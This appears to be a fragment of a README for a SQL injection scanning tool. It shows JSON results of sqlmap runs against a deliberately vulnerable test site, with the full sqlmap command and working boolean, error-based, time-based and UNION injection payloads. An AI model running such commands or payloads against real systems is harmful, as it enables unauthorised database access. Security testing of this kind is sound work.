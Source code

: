 ```json
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    },
    {
      "step": "high_risk_tables",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --tables --risk=3 --level=5",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [],
        "tables": [],
        "columns": {},
        "dbms": "MySQL >= 8.0.0",
        "os": "Linux Ubuntu",
        "waf_detected": false,
        "web_app": [
          "PHP 5.6.40",
          "Nginx 1.19.0"
        ],
        "payloads": [
          "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
          "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
          "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
          "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
        ],
        "raw_result": "SQLMap output truncated for readability",
        "url": "",
        "extracted": {}
      }
    }
  ]
}
```

## Contributing
